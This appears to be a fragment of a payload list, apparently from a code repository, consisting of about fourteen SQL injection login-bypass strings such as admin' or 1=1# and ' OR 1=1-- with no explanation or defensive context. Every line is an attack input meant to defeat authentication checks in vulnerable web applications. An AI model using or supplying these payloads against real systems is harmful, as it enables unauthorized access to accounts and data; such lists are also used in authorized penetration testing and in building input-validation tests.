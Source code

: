 ### admin' or 1=1 or ''='
### admin' or 1=1#
### ' OR 1=1;--
### ' OR 1=1--
### 'or'1'='1
### 'or 1=1--+
### 'or 1=1-+
### admin' or '1'='1
### '&'
### '^'
### '-'
### '*'
### ' or true--
### ' or 'x'='x
